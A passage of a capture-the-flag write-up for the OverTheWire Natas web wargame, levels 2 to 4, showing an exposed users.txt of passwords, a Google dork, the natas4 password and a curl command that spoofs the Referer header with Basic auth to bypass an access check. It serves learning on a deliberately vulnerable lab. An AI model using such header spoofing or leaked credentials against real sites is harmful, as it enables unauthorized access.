There is an image *pixel.png* inside files directory, if we look at that directory we notice a file called users.txt:

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Natas 3

Same message, we view source code we notice this comment:

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Hmm, smells like we need to use Google Dork: 

```
site:natas3.natas.labs.overthewire.org
```

![natas3](/images/overthewire_natas/natas3.png)

Inside s3cr3t directory there's a users.txt file containing the password for the next level:

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas 4

It says Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/". We can bypass this by sending `Referer HTTP HEADER` containing: `http://natas5.natas.labs.overthewire.org/`:

```
 curl http://natas4.natas.labs.overthewire.org/ -H "Referer: http://natas5.natas.labs.overthewire.org/" -H "Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va"
```
